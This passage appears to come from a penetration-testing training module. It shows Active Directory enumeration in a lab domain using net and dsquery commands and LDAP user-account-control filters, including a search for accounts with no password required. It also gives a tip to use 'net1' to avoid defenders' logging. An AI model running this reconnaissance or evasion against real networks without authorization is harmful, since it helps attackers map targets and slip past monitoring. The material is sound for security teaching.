*Cloneable Domain Controllers
*Collaboration_users
*Communications_users
*Compliance Management
*Computer Group Management
*Contractors
*CTO

<SNIP>
```

You can see above the ```net group``` command provided you with a list of groups within the domain.

#### Information about a Domain User

```powershell
PS C:\htb> net user /domain wrouse

The request will be processed at a domain controller for domain INLANEFREIGHT.LOCAL.

User name                    wrouse
Full Name                    Christopher Davis
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/27/2021 10:38:01 AM
Password expires             Never
Password changeable          10/28/2021 10:38:01 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships
Global Group memberships     *File Share G Drive   *File Share H Drive
                             *Warehouse            *Printer Access
                             *Domain Users         *VPN Users
                             *Shared Calendar Read
The command completed successfully.
```

#### Net Commands Trick

If you believe the network defenders are actively logging/looking for any commands out of the normal, you can try this workaround to using net commands. Typing ```net1``` instead of ```net``` will execute the same functions without the potential trigger from the net string.

### Dsquery

... is a helpful command-line tool that can be utilized to find AD objects. The queries you run with this tool can be easily replicated with tools like BloodHound and PowerView, but you may not always have those tools at your disposal. But, it is a likely tool that domain sysadmins are utilizing in their environment. With that in mind, dsquery will exist on any host with the AD Domain Services Role installed, and the dsquery DLL exists on all modern Windows systems by default now and can be found at ```C:\Windows\System32\dsquery.dll```.

All you need is elevated privileges on a host or the ability to run an instance of Command Prompt or PowerShell from a SYSTEM context. Below, there is the basic search function with dsquery and a few helpful search filters.

#### User Search

```powershell
PS C:\htb> dsquery user

"CN=Administrator,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Guest,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=lab_adm,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=krbtgt,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Htb Student,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Annie Vazquez,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Paul Falcon,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Fae Anthony,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Walter Dillard,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Louis Bradford,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Sonya Gage,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Alba Sanchez,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Daniel Branch,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Christopher Cruz,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Nicole Johnson,OU=Finance,OU=Financial-LON,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Mary Holliday,OU=Human Resources,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Michael Shoemaker,OU=Human Resources,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Arlene Slater,OU=Human Resources,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Kelsey Prentiss,OU=Human Resources,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
```

#### Computer Search

```powershell
PS C:\htb> dsquery computer

"CN=ACADEMY-EA-DC01,OU=Domain Controllers,DC=INLANEFREIGHT,DC=LOCAL"
"CN=ACADEMY-EA-MS01,OU=Web Servers,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=ACADEMY-EA-MX01,OU=Mail,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=SQL01,OU=SQL Servers,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=ILF-XRG,OU=Critical,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=MAINLON,OU=Critical,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=CISERVER,OU=Critical,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=INDEX-DEV-LON,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=SQL-0253,OU=SQL Servers,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0615,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0616,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0617,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0618,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0619,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0620,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0621,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0622,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=NYC-0623,OU=NYC,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=LON-0455,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=LON-0456,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=LON-0457,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
"CN=LON-0458,OU=LON,OU=Servers,OU=Computers,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL"
```

#### Wildcard Search

You can use a dsquery wildcard search to view all objects in an OU, for example.

```powershell
PS C:\htb> dsquery * "CN=Users,DC=INLANEFREIGHT,DC=LOCAL"

"CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=krbtgt,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Computers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Controllers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Schema Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Enterprise Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Cert Publishers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Domain Guests,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Group Policy Creator Owners,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=RAS and IAS Servers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Allowed RODC Password Replication Group,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Denied RODC Password Replication Group,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Read-only Domain Controllers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Enterprise Read-only Domain Controllers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Cloneable Domain Controllers,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Protected Users,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Key Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Enterprise Key Admins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=DnsAdmins,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=DnsUpdateProxy,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=certsvc,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=Jessica Ramsey,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"
"CN=svc_vmwaresso,CN=Users,DC=INLANEFREIGHT,DC=LOCAL"

<SNIP>
```

#### Users with specific Attributes Set

You can, of course, combine dsquery with LDAP search filters of your choosing. The below looks for users with the PASSWD_NOTREQD flag set int userAccountControl attribute.

```powershell
PS C:\htb> dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl

  distinguishedName                                                                              userAccountControl
  CN=Guest,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                                    66082
  CN=Marion Lowe,OU=HelpDesk,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL      66080
  CN=Yolanda Groce,OU=HelpDesk,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL    66080
  CN=Eileen Hamilton,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL    66080
  CN=Jessica Ramsey,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                           546
  CN=NAGIOSAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL                           544
  CN=LOGISTICS$,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                               2080
  CN=FREIGHTLOGISTIC$,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                         2080
```

#### Searching for DCs

The below search filter looks for all DCs in the current domain, limiting to five results.

```powershell
PS C:\Users\forend.INLANEFREIGHT> dsquery * -filter "(userAccountControl:1.2.840.113556.1.4.803:=8192)" -limit 5 -attr sAMAccountName

 sAMAccountName
 ACADEMY-EA-DC01$
```

#### LDAP Filtering Explained

You will notice in the queries above that you are using strings such as ```userAccountControl:1.2.840.113556.1.4.803:=8192```. These strings are common LDAP queries that can be used with several different tools too, including AD PowerShell, ldapsearch, and many others.

```userAccountControl:1.2.840.113556.1.4.803:``` specifies that you are looking at the User Account Control attributes for an object. This portion can change to include three different values.

##### UAC Values

```=8192``` represents the decimal bitmask you want to match in this search. This decimal number corresponds to a corresponding UAC attribute flag that determines if an attribute like ```password is not required``` or ```account is locked``` is set. These values can compound and make multiple different bit entries.



##### OID match strings

OIDs are rules used to match bit values with attributes, as seen above. For LDAP and AD, there are three main matching rules:

1. ```1.2.840.113556.1.4.803```

When using this rule as you did in the example above, you are saying the bit value must match completely to meet the search requirements. Great for matching a singular attribute.

2. ```1.2.840.113556.1.4.804```

When using this rule, you are saying that you want your results to show any attribute match if any bit in the chain matches. This works in the case of an object having multiple attributes set.

3. ```1.2.840.113556.1.4.1941```

This rule is used to match filters that apply to the Distinguished Name of an object and will search through all ownership and membership entries.

##### Logical Operators

When building out search strings, you can utilize logical operators to combine values for the search. The operators ```&```, ```|```, and ```!``` are used for this purpose. For example you can combine multiple search criteria with the ```&``` operator like so: ```(&(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=64))``` .

The above example sets the first criteria that the object must be a user and combines it with searching for a UAC bit value of 64 (_Password can't change_). A user with that attribute set would match the filter. You can take this even further and combine multiple attributes like ```(&(1) (2) (3))```. The ```!``` and ```|``` operators can work similarly. For example, your filter above can be modified as follows: ```(&(objectClass=user)(!userAccountControl:1.2.840.113556.1.4.803:=64))```.

This would search for any user object that does NOT have the "Password Can't Change" attribute set. When thinking about users, groups, and other objects in AD, you ability to search with LDAP queries is pretty extensive.

A lot can be done with UAC filters, operators, and attribute matching with OID rules.